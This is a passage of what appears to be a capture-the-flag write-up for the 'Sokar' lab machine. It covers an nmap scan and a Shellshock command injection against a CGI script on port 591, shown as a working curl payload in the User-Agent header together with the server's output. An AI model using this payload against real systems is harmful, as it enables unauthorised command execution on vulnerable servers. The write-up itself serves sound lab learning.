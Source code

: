 **192.168.217.163**. Great. This will be our target for a `nmap` scan. Sokar did not respond to pings, but that is no biggie. I see this many times in real world networks too, so heh. Don't rely on ICMP traffic ;)

```bash
leonjza@kali/sokar $ nmap --reason 192.168.217.163 -p-

Starting Nmap 6.47 ( http://nmap.org ) at 2015-02-02 21:09 SAST
Nmap scan report for 192.168.217.163
Host is up, received arp-response (0.00027s latency).
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT    STATE SERVICE  REASON
591/tcp open  http-alt syn-ack
MAC Address: 08:00:27:F2:40:DB (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 1133.72 seconds
```

One port open on tcp. `tcp/591`.

## /cgi-bin/cat
The service on `tcp/591` appeared to be a web server. The web server content updated every time it was requested. Inspection of the web page sources revealed the information is actually sourced from a HTML `<iframe>` to http://192.168.217.163:591/cgi-bin/cat. Requesting this page alone was the same stats, minus that creepy pink color ;)

{% img https://i.imgur.com/nAoNCnK.png %}

I toyed around quite a bit with this webserver. The textbook approach of running `wfuzz` to discover some web paths, `nikto` to discover some interesting information etc. was used. Alas, none of these tools proved really useful.

Applying some more brain thingies to my current situation, I remembered the [Shellshock](http://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) bug disclosed in September 2014. The `/cgi-bin` path was the biggest hint towards it. I also remembered [@mubix](https://twitter.com/mubix) was keeping a Github repository of [PoC's for shellshock](https://github.com/mubix/shellshocker-pocs), and promptly started to try a few against the CGI path.

Eventually, [this](https://gist.github.com/mfadzilr/70892f43597e7863a8dc) PoC was modified a little to get me some working command injection via shellshock:

```bash
leonjza@kali/sokar $ curl -i -X OPTIONS -H "User-Agent: () { :;};echo;/usr/bin/id" "http://192.168.217.163:591/cgi-bin/cat"
HTTP/1.1 200 OK
Date: Mon, 02 Feb 2015 21:23:07 GMT
Server: Apache/2.2.15 (CentOS)
Connection: close
Transfer-Encoding: chunked
Content-Type: text/plain; charset=UTF-8

uid=48(apache) gid=48(apache) groups=48(apache)
```
